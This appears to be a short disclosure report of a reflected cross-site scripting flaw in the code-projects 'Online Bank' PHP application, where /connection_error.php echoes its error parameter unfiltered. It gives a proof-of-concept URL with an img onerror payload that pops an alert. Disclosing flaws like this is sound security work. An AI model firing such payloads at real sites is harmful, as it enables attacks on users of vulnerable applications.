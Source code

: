 # Summary
There is a XSS vulnerability in code-project Online Bank (https://code-projects.org/online-bank-in-php-css-javascript-and-mysql-free-download/).

Affected component is `/connection_error.php`.

# Details
In `/connection_error.php?error=xxx`,
we use this xss payload:
```
/connection_error.php?error=<img/src="x"/onerror=alert(`xss`);>
```
![image](https://github.com/user-attachments/assets/3ae6ac1a-da03-4fcf-bb84-18fa951cacf0)
![image](https://github.com/user-attachments/assets/8f3e7156-81cc-4768-a157-5acc5f063eb5)

Audit the code, finding that it uses `<?php echo xxx` in HTML, however, there is no filter for output of echo, which leads to cross site script attack:
![image](https://github.com/user-attachments/assets/b8cb17f2-c194-43b7-a7e8-5abbdd622424)



# PoC
```
/connection_error.php?error=<img/src="x"/onerror=alert(`xss`);>
```
![image](https://github.com/user-attachments/assets/3ae6ac1a-da03-4fcf-bb84-18fa951cacf0)
